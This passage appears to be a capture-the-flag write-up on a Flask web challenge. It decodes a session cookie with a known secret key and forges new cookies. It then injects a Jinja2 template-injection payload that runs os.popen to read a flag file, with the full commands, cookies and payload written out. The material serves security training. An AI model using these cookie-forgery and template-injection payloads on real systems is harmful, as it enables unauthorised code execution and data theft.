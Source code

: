 Result:
```bash
┌──(venv)─(taiwhis㉿kali)-[~/ASC/flask-session-cookie-manager]
└─$ python3 flask_session_cookie_manager3.py decode -c '.eJwljjEOwzAIAP_iuYMNBEw-E2EDaod2SJqp6t8bqdudbrlP2XKP417W937GrWwPL2sRxECsJjE1nMMICFFr0xRkkqQEwKZuqldN6dwbCEwDtmEewlNMDdXUpQorOWdPrqCzEnWI1mUsrp0Yuy2MKW2pwD50Kpdr5Dxi_9-0S1_2jAttTK3l-wM5ZjIX.ZNS29Q.PhEpEJOmRM11IfBtpCVu_qt1kQw' -s 'SuperDuperSecureSecretKey1234!' 

{'_fresh': True, '_id': '733e330a7ec9ed6ea424339019f73647f4f22319da996eaf78681272ca26abade76c7a9a39a9d707694d6f8f6029c04482e187b5d984638a563f715026db9c96', '_user_id': '1', 'name': 'abc90'}

```

Now i will edit the name part to be the payload of read flag.

- Test with SSTI payload:
`%7B%7Bconfig%7D%7D`

```bash
┌──(venv)─(taiwhis㉿kali)-[~/ASC/flask-session-cookie-manager]
└─$ python3 flask_session_cookie_manager3.py encode -s 'SuperDuperSecureSecretKey1234!' -t "{'_fresh': True, '_id': '733e330a7ec9ed6ea424339019f73647f4f22319da996eaf78681272ca26abade76c7a9a39a9d707694d6f8f6029c04482e187b5d984638a563f715026db9c96', '_user_id': '1', 'name':'%7B%7Bconfig%7D%7D'}" 
.eJwljjEOgzAMAP-SuUNiBzvmM8jEdstQKkGZEH8vUrc73XJnmmLz_ZXG73b4I02LpTExoiNmZe_iRq4VKqLkIsFIlaMGABYxFblrcKNWgKErkM5qztRZRVFUjDOTVKNoQRmk51obeGk8DyatEjYdCIPLkIFsli6U7pFj9-1_U25d9e03nmf_rLE8rytdP0GcNO4.ZNS8LQ.uFbR2wglKGFPbrNVRUPZAbU1Z3w
```

Result:

![](https://hackmd.io/_uploads/Bkq33EG2n.png)


- Create a new session containing the payload exploit read file:

```js
\{\{config.__class__.__init__.__globals__['os'].popen('cat /home/ctf/flag.txt').read()\}\}
```
Render session:
```bash
┌──(venv)─(taiwhis㉿kali)-[~/ASC/flask-session-cookie-manager]
└─$ python3 flask_session_cookie_manager3.py encode -s 'SuperDuperSecureSecretKey1234!' -t "{'_fresh': True, '_id': '733e330a7ec9ed6ea424339019f73647f4f22319da996eaf78681272ca26abade76c7a9a39a9d707694d6f8f6029c04482e187b5d984638a563f715026db9c96', '_user_id': '1', 'name':\"\{\{config.__class__.__init__.__globals__['os'].popen('cat /home/ctf/flag.txt').read()\}\}"}"                                
.eJwljttqwzAQBX-l6MUJFNu6ZFebXylFrKWVY3DsYCtQMP73ivZtzpmXOVTIm-wPdS_bWz5VmJK6K7RWrO0ZJZIkEHbGWUu9powWHGaXjbGaEhNVm9GD1wZNZAM8cBKEiExsiSlhj0AuQfYZekOxd84b0R6HWyLvwHq-gc2ob72BNFAkUDXkvcv2X6PrXPgpFY8jrkuexjaEOPO-h1BpWqbyB-O8DjzX86tZ9-a7fa0vWS5N5PLRPdandLHkLs88tuWnNNd2E06X63mq8xcJBU9_.ZNS_Ew.YqWWNLY3IxmY9cyrKanOYJy39pw
```

Session:
```js
.eJwljttqwzAQBX-l6MUJFNu6ZFebXylFrKWVY3DsYCtQMP73ivZtzpmXOVTIm-wPdS_bWz5VmJK6K7RWrO0ZJZIkEHbGWUu9powWHGaXjbGaEhNVm9GD1wZNZAM8cBKEiExsiSlhj0AuQfYZekOxd84b0R6HWyLvwHq-gc2ob72BNFAkUDXkvcv2X6PrXPgpFY8jrkuexjaEOPO-h1BpWqbyB-O8DjzX86tZ9-a7fa0vWS5N5PLRPdandLHkLs88tuWnNNd2E06X63mq8xcJBU9_.ZNS_Ew.YqWWNLY3IxmY9cyrKanOYJy39pw
```

